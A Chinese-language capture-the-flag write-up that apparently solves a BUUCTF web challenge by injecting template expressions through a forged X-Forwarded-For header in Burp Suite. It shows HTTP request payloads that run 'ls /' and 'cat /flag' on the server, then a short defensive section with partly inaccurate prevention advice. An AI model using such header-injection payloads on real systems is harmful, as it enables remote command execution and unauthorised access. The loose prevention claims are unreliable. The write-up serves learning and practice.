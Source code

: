 >怎么也逃不出~burp suite的世界~

## 1
点来点去没什么头绪，php文件都是摆在明面上的，把页面源代码几个看不懂的都翻译了翻译，发现一个是适配低版本IE浏览器一个是前端实现浮动字效果……心寒……

burpsuite抓包，wp说`IP`->`X-Forwarded-For`（乍一听怪扯的……不过在读过X-Forwarded-For文档里面反复提及的警告后就理解了一点了。）。
所以浅学一下<a href=https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For>X-Forwarded-For</a>。

## 2
接下来就是添加HTTP请求头

```HTTP
GET /flag.php HTTP/1.1
Host: node4.buuoj.cn:29729
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
X-Forwarded-For:1//是的我添；
Connection: close
```
forward之后界面从`Your IP Is: 10.xx`变成了`Your IP: Is 1`。
injec成功！！
```HTTP
X-Forwarded-For: {{system('ls /')}}
```
进而查找到了**flag**所在位置，接着
```HTTP
X-Forwarded-For: {{system('cat /flag')}}
```



---
## 3

`X-Forwarded-For` 是一个HTTP 请求头字段。在正常情况下，它用于标识客户端的原始 IP 地址，尤其在经过代理（如负载均衡器、反向代理等）的情况下。（在尝试访问bing.com的时候modifyheader就是利用这个原理）
`X-Forwarded-For: {{system('ls /')}}` 是一个恶意构造的输入，试图通过伪造的 `X-Forwarded-For` 头字段执行系统命令 `ls /` 来获取服务器上根目录的文件列表。然而，这是一种违规和危险的行为，可能会导致系统安全风险和非法访问。
**预防**：
- 1.对于HTTP请求头字段，在正常情况下浏览器会发送真实的客户端IP地址，而不是接受用户输入的X-Forwarded-For值。这样可以避免恶意用户伪造IP地址来执行攻击。
- 2.大多数Web服务器也会验证和过滤请求头字段，确保其中的数据是合法和安全的。
此外，系统管理员也应该采取必要的安全措施来保护服务器免受攻击。这包括配置正确的防火墙规则、定期更新和升级软件以修复安全漏洞，并按照最佳实践设置服务器和应用程序。
